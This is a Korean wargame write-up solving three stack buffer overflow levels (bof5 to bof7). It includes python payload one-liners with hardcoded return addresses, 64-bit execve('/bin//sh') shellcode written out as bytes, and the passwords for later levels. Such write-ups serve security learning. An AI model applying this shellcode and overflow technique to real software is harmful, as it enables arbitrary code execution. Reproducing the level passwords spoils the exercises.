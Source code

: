 # 싱글벙글 가륜이의 문제풀이 (bof5~7)

<br/>

## __문제 접근__:

> 1. 코드를 읽고 스택의 구조를 파악한다.  
> 이번 문제들은 이전과 다르게 쉘코드를 직접 실행시켜야 한다.
> 2. 버퍼의 주소를 파악한다.
> 3. 버퍼와 SFP의 크기를 파악한다.
> 4. bof로 리턴을 쉘코드로 할 수 있도록 조작한다.
> 5. 그후 쉘을 얻을 수 있다.

</br>  

## __구체적 풀이__:

> 5. bof5는 표준입력으로 부터 값을 받는다.  
> 이전 문제들과 다르게 쉘을 실행하는 코드가 없다. [  system(buf) ]  
> 시스템에 버퍼를 넣으므로 버퍼에 쉘코드를 넣어주면 된다.
> bof6.pw : b35aad61

> 6. bof6는 표준입력으로 부터 값을 받는다
> 쉘코드가 프로그램 내에 이미 존재한다
> bof 사용 -> 버퍼의 크기는 128 + 8(SFP) + 쉘코드 로 작성한다.  
> (python -c "print 'x' * 136 + '\x30\xeb\xff\xff\xff\x7f'";cat) | ./bof6  
> bof3.pw : ffa35d7e

> 7. bof7는 명령줄 인자로 부터 값을 받는다.  
> 64비트 프로그램이라 64비트 쉘코드가 필요하다.
> \x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05  
> 이 문제에서 가장 중요한것은 명령줄 인자로 값을 넘겨주면 스택의 주소위치가 달라진다는 점이다. 임의의 값을 전달하고 스택 위치를 먼저 찾는다.  
> ./bof7 \`python -c "print '\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05' + 'x' * 113 + '\xb0\xea\xff\xff\xff\x7f'"`  
> bof8.pw : 0dc54105